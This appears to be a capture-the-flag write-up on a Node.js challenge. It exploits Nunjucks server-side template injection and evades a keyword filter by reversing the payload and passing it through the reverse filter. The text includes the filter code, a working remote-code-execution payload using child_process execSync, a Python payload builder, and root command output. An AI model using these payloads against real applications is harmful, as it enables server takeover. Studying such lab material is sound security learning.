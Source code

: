 # Node Version Write-up

Looking at it we have almost the same things as the Easy version.

  - Screen that Replicates the gift requests
  - Debug to see the code.
  
However, this time its not flask, but Node.js (What fun)

We also have a *slightly* irritating filter.  I know that these are common words used to stop
RCE in node / JS applications.

```
    //Filter
    var filterList = ["require", "child-process","exec"]
    for (var i=0; i<filterList.length; i++){
	theKing = theKing.replace(filterList[i], "");
	name = name.replace(filterList[i],"");
    }
```

## Checking for SSTI

http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

Its mostly the same as the easy challenge here.

If we run the payload ```king = {{ 4+ 4}}``` we get code execution

```
<div class="container">
    <h2>Error</h2><div class='alert alert-danger' role='alert'>ERROR:  8 is not a King</div>
  </div>
```

And we can also use the object creation function from the above (see checkPayload)
NOTE:  Its a nice similarity to the ().__item__ thing from Python


```
<div class="container">
    <h2>Error</h2><div class='alert alert-danger' role='alert'>ERROR:  [object Object] is not a King</div>
```

However to hit the rest of the thing we need to start using reserved words.

## Bypassing the filter

!!! note

	I had a play with injecting into the string using other parameters,
	but to be honest JavaScript string concatenation bamboozled me.  Either way it turns 
	out there's a much easier way
	
We now have the problem of the filter.  Given the tutorial above we want to be running something like 
this

```
range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()
```

But we have all 3 of our blocked words in there, an it fails with an error. (failedExploit)

```
<pre>Template render error: (unknown path)<br> &nbsp;Template render error: (unknown path)<br> &nbsp;Template render error: (unknown path)<br> &nbsp;SyntaxError: Unexpected token &#39;(&#39;<br> &nbsp; 
```

As i said, tried accessing global, but they didn't appear to exist (I couldn't find them)
SO we look through the nunjucks docs for anything useful like the 
[Reverse Function](https://mozilla.github.io/nunjucks/templating.html#reverse)


So out POC looks like this

  - Write a payload that executes a command
  - Reverse it
  - SSTI it 
  - Pass the injected text through the builtin *reverse* filter
  
We can build this up in stages (see run command)


Build our inner payload and reverse it

```
kingString = "return global.process.mainModule.require('child_process').execSync('{0}')".format(theCommand)
#Reverse the Thing
revString = kingString[::-1]
```

The splice it into the ```range.constructor```  along with the reverse command

```
    payloadString = '{{{{range.constructor("{0}\" | reverse )()}}}}'.format(revString)
```

Output is 

```
{{range.constructor(")'di'(cnyScexe.)'ssecorp_dlihc'(eriuqer.eludoMniam.ssecorp.labolg nruter" | reverse )()}}
```



Running with ID gives us details

```
 <h2>Error</h2><div class='alert alert-danger' role='alert'>ERROR:  uid=0(root) gid=0(root) groups=0(root
 ```

## Flags

TODO,  when I add them propoerly
